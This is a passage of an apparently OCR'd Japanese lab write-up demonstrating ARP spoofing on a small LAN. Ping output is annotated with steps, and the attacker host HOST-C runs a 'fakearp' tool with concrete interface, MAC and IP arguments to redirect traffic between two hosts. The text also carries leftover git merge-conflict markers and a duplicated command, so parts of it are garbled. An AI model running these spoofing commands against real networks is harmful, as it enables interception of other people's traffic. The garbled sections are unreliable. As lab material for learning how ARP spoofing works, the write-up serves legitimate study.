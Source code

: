 \-\-\-\-\-[HOST\-AからHOST\-Bへの連続PING]
C:\Users\unya>ping \-t 192.168.2.7

192.168.2.7 に ping を送信しています 32 バイトのデータ:
192.168.2.7 からの応答: バイト数 \=32 時間 <1ms TTL\=255 \-
192.168.2.7 からの応答: バイト数 \=32 時間 <1ms TTL\=255  |
192.168.2.7 からの応答: バイト数 \=32 時間 <1ms TTL\=255  |\-\-\-手順 1 疎通確認
192.168.2.7 からの応答: バイト数 \=32 時間 <1ms TTL\=255  |
192.168.2.7 からの応答: バイト数 \=32 時間 <1ms TTL\=255 \-
要求がタイムアウトしました。                           \- <\-\-手順 2 ARPスプーフィング実行
要求がタイムアウトしました。                            |
要求がタイムアウトしました。                            |\-\-\-手順 3 疎通が途絶えることを確認
要求がタイムアウトしました。                            |
要求がタイムアウトしました。                           \-
192.168.2.7 からの応答: バイト数 \=32 時間 \=1ms TTL\=255 \- <\-\-手順 4 IPパケット転送開始
192.168.2.7 からの応答: バイト数 \=32 時間 \=1ms TTL\=255  |
192.168.2.7 からの応答: バイト数 \=32 時間 \=1ms TTL\=255  |\-\-\-手順 5 疎通が復旧することを確認
192.168.2.7 からの応答: バイト数 \=32 時間 \=1ms TTL\=255  |
192.168.2.7 からの応答: バイト数 \=32 時間 <1ms TTL\=255 \-
\-\-\-\-\-


- 3.3.3 HOST\-C（攻撃者）の実行結果

　HOST\-Cは攻撃者です。HOST\-Cでは、HOST\-AおよびHOST\-Bに対してARPスプーフィ
ングを実行します[手順 2]。
　HOST\-AとHOST\-B間の通信がすべてHOST\-Cへ向かうように、送信元MACアドレスを
HOST\-Cのアドレスに設定します。

　以下は、HOST\-CでARPスプーフィングを実行しているところです。

\-\-\-\-\-[HOST\-CでのARPスプーフィング実行]
HOST\-C\# ./fakearp \-i em0 \-sh 00:1f:d0:c0:24:da \-sp 192.168.2.7 \-dh 00:1b:d3:87:2a:59 192.168.2.5
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
Using interface em0
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
ARP request 192.168.2.7 00:1f:d0:c0:24:da > 192.168.2.5 00:1b:d3:87:2a:59
＜省略＞

<<<<<<< HEAD
HOST-C# ./fakearp -i em0 -sh 00:1f:d0:c0:24:da -sp 192.168.2.5 -dh 4c:e6:76:08:96:86  192.168.2.7
=======
HOST\-C\# ./fakearp \-i em0 \-sh 00:1f:d0:c0:24:da \-sp 192.168.2.5 \-dh 4c:e6:76:08:96:86  192.168.2.7
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
Using interface em0
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
ARP request 192.168.2.5 00:1f:d0:c0:24:da > 192.168.2.7 4c:e6:76:08:96:86
＜省略＞
<<<<<<< HEAD
-----
